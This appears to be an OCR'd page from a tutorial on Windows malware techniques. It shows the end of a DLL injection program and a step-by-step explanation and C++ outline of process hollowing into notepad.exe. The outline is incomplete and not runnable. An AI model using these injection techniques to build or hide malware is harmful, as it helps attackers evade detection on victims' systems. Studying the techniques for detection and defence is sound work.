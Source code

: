 ```cpp

    // Cleanup
    CloseHandle(hThread);
    CloseHandle(hProcess);

    std::cout << "DLL injected successfully!" << std::endl;
    return 0;
}
```
#### Process Hollowing
Process hollowing involves creating a new process in a suspended state, then replacing the legitimate code with malicious code before resuming the process. This method is commonly used in advanced malware to make it appear as though a legitimate process is running, while in fact, it has been replaced by malware.

Steps for Process Hollowing:
1. Create a suspended process using `CreateProcess`.
2. Unmap the legitimate process image using `NtUnmapViewOfSection`.
3. Allocate new memory for the malicious code using `VirtualAllocEx`.
4. Write the malicious code into the process's address space using `WriteProcessMemory`.
5. Resume the process using `ResumeThread`.

Process Hollowing Example Outline:
```cpp
#include <windows.h>
#include <iostream>

int main() {
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    si.cb = sizeof(si);

    // Step 1: Create a new process in a suspended state
    if (!CreateProcessA("C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
        std::cerr << "Failed to create process." << std::endl;
        return 1;
    }

    // Step 2: Unmap the process's memory (legitimate process's code)
    // (Requires use of ntdll.dll functions such as NtUnmapViewOfSection, not shown here for brevity)

    // Step 3: Allocate memory in the target process for the malicious code
    LPVOID maliciousCode = VirtualAllocEx(pi.hProcess, NULL, maliciousCodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!maliciousCode) {
        std::cerr << "Failed to allocate memory." << std::endl;
        return 1;
    }

    // Step 4: Write the malicious code into the target process
    WriteProcessMemory(pi.hProcess, maliciousCode, yourMaliciousCode, maliciousCodeSize, NULL);

    // Step 5: Resume the process
    ResumeThread(pi.hThread);

    // Cleanup
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);

    return 0;
}
```